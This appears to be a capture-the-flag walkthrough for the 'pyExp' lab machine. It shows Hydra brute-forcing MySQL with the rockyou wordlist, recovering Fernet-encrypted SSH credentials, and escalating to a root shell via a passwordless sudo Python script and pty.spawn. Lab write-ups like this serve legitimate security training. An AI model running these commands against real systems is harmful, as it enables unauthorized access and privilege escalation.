 # Offsec-pyExp

Specific Steps for pyExp

Reconnaissance: Scan to identify running services, particularly MySQL (tcp/3306) and SSH (tcp/1337).

Brute Force MySQL: Use Hydra to brute force MySQL access using the wordlist /usr/share/wordlist/rockyou.txt.

```bash
hydra -l root -P /usr/share/wordlist/rockyou.txt mysql://<IP_ADDRESS>:3306
```
Database Access: Extract the encrypted SSH credentials via the symmetric Fernet algorithm from the `data` table.

SSH Connection: Decrypt the credentials and connect via SSH on tcp/1337.

```bash
ssh <user>@<IP_ADDRESS> -p 1337
```
Privilege Escalation: The user 'lucy' can execute a script with root privileges without a password. Use it for privilege escalation.

```bash
sudo /usr/bin/python2 /opt/exp.py
import pty;pty.spawn("/bin/bash")
```

Flag Retrieval: Read the local.txt and proof.txt files after privilege escalation.

```bash
cat local.txt
cat /root/proof.txt
```

Credits : Isid0r3 & Jedidia
